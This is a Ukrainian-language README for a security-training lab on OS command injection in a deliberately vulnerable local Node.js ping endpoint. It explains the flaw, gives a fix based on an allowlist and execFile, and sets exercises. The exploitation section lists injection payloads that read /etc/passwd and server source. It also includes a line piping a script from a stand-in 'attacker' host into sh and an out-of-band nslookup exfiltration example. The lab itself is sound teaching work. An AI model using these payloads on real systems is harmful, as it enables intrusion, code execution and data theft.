

[🏠 Головна](../README.md) · [⬅ X01 XSS](../X01_XSS/README.md) · [X03 SSTI ➡](../X03_SSTI/README.md)

# 💻 X02: OS Command Injection

> **OWASP A05:2025 — Injection** (у 2021: A03) · порт **3012** · CWE-78
>
> ⚠️ Вразливий ендпоінт виконує **довільні команди ОС** на твоїй машині. Тільки `127.0.0.1`!



## 📋 Зміст

- [Мета](#-мета)
- [Запуск](#-запуск)
- [Вразливість](#-вразливість)
- [Експлуатація](#-експлуатація)
- [Виправлення](#-виправлення)
- [Завдання](#-завдання)
- [Джерела](#-джерела)

---

## 🎯 Мета

Зрозуміти, чому передача користувацького вводу в shell — це пряме віддалене виконання коду (RCE), та навчитися правильно викликати зовнішні програми з Node.js.

## 🚀 Запуск

```bash
cd X02_CommandInjection
npm install
npm start          # http://127.0.0.1:3012
```

Працює і на Windows (`cmd.exe`), і на Linux/macOS (`/bin/sh`) — приклади атак підлаштовуються під ОС сервера.

## 🚫 Вразливість

«Мережева утиліта ping» будує команду конкатенацією рядків і запускає її через `child_process.exec()`, тобто **через shell**:

```javascript
const command = `ping -n 1 ${host}`;   // host — від користувача
exec(command, ...);                     // cmd.exe / sh інтерпретує & | ; $() ``
```

| Ендпоінт | Статус |
|---|---|
| `POST /ping { host }` | 🔴 `exec` + конкатенація |
| `POST /ping-secure { host }` | 🟢 allowlist + `execFile` без shell |

## 💣 Експлуатація

| ОС | Пейлоад | Результат |
|---|---|---|
| Windows | `127.0.0.1 & whoami` | ім’я користувача, від якого працює Node |
| Windows | `127.0.0.1 && dir` | вміст директорії |
| Windows | `127.0.0.1 \| type server.js` | вихідний код сервера |
| Linux | `127.0.0.1; id` | uid/gid процесу |
| Linux | `127.0.0.1 && cat /etc/passwd` | системні користувачі |
| Linux | `127.0.0.1; curl http://attacker/x.sh \| sh` | (концепт) завантаження і запуск шкідливого скрипта |

```bash
curl -X POST http://127.0.0.1:3012/ping -H "Content-Type: application/json" \
     -d '{"host":"127.0.0.1 & whoami"}'
```

**Blind-варіант:** якщо вивід не повертається, атакувальник використовує затримку (`& timeout 5` / `; sleep 5`) або out-of-band запит (`nslookup $(whoami).attacker.com`).

## ✅ Виправлення

```javascript
// 1. Allowlist — лише IPv4 або доменне ім’я
const HOST_RE = /^(?:\d{1,3}(?:\.\d{1,3}){3}|[a-zA-Z0-9.-]+)$/;
if (!HOST_RE.test(host)) return res.status(400).json({ error: 'Невалідний хост' });

// 2. execFile/spawn передають аргументи МАСИВОМ і не запускають shell
execFile('ping', ['-n', '1', host], (err, stdout) => { ... });
```

Додатково: не використовуй `shell: true`, запускай сервіс під непривілейованим користувачем, а краще — використовуй нативну бібліотеку замість виклику утиліти (наприклад, `dns.lookup` замість `nslookup`).

## 🧪 Завдання

1. Отримай вивід `whoami` і вміст `package.json` через `/ping`.
2. Поясни, чому `/ping-secure` не вразливий навіть до `127.0.0.1 & whoami`, якщо прибрати regex (підказка: як `execFile` передає аргументи?).
3. Знайди спосіб обійти «наївний» фільтр, який видаляє лише символ `;` .

## 📚 Джерела

- [OWASP Top 10:2025 — A05 Injection](https://top10.owasp.org/2025/A05_2025-Injection/)
- [OWASP OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [Node.js docs: child_process.execFile](https://nodejs.org/api/child_process.html#child_processexecfilefile-args-options-callback)

---

[⬆ До змісту](#-зміст) · [🏠 Головна](../README.md)
